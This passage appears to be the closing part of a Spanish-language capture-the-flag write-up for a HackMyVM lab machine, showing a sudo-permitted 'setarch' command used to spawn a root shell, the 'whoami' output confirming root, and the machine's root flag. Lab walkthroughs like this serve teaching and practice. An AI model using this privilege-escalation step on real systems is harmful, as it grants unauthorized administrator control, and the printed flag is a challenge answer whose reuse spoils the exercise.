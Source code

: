 ```shell
sudo setarch $(uname -m) /bin/bash
```

Info:

```
root@forbidden:/home/marta# whoami
root
```

Con esto veremos que ya seremos `root` por lo que leeremos la `flag` del usuario `root`:

> root.txt

```
HMVmymymymymind
```
